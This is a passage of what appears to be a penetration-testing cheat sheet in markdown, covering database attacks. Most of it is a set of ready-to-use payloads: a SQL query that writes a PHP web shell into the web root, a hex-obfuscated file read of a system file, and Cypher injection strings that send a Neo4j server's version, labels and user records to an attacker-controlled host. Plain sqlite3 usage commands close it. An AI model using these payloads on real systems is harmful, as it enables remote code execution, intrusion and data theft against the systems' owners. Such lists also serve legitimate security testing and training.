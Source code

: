 ### Dump to File

```console
SELECT ## FROM <TABLE> INTO dumpfile '/PATH/TO/FILE'
```

### Dump PHP Shell

```console
SELECT 'system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php'
```

### Read File Obfuscation

```console
SELECT LOAD_FILE(0x633A5C626F6F742E696E69)    // reads C:\boot.ini
```

### Cipher Injection

#### Check Server Version

```console
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions
as version LOAD CSV FROM 'http://<LHOST>/?version=' + version + '&name=' + name + '&edition=' + edition as
l RETURN 0 as _0 //
```

#### Get Label

```console
' OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://<LHOST>/?label='+label as
l RETURN 0 as _0 //
```

#### Get Key Properties

```console
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://<LHOST>/?' + p
+'='+toString(f[p]) as l RETURN 0 as _0 //
```



## sqlite3

```console
$ sqlite3 <FILE>.db
```

### Common Commands

```console
sqlite> .tables
sqlite> PRAGMA table_info(<TABLE>);
sqlite> SELECT * FROM <TABLE>;
```
